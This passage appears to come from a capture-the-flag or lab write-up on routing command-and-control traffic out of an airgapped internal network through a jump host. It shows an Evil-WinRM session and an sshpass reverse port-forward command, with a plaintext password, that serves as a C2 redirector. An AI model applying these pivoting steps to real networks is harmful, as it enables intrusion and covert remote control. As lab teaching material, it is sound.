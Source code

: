 #### C2 Infrastructure Overview

The internal machines are airgapped and do not have direct internet access, meaning they cannot connect directly to your machine. However, they can connect to the jump host. You may remember the following network interface on the jump host that is exposed to the internal subnet:

```
2: ens18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether bc:24:11:e4:b6:a5 brd ff:ff:ff:ff:ff:ff
    altname enp0s18
    inet 10.2.10.9/24 brd 10.2.10.255 scope global ens18
       valid_lft forever preferred_lft forever
    inet6 fe80::be24:11ff:fee4:b6a5/64 scope link 
```

We can confirm that `Southern-Tower` can ping the jump host using its internal IP address:

```
*Evil-WinRM* PS C:\Users\gatari\Documents> ping 10.2.10.9 -n 1

Pinging 10.2.10.9 with 32 bytes of data:
Reply from 10.2.10.9: bytes=32 time<1ms TTL=64
```

#### Network Tunneling Configuration

In order to facilitate a connection from the `Southern-Tower` (or any other internal machine) to our C2 server, we need to tunnel traffic out through the jump host. For those familiar with red team infrastructure, this is very similar to a C2 redirector.

<img src="https://cdn.packtpub.com/article-hub/articles/e643d07fe8f9f65126dac04d4edd4111.png" alt="img" style="width: 50%;" />

In the context of this environment, the setup looks something like this:

![img](./assets/img/obo/pivot.png)

The reverse port forward (`FwdRule1`) can be staged using `ssh` with the following syntax:

```
sshpass -p '8iP0TbO5mQmS' ssh svc_jmp@172.16.10.10 -R 41337:0.0.0.0:6969 -N
```

This will map `jump:41337 <-> attacker:6969`, we can also verify this by curling the `jump` host on `Southern-Tower`:
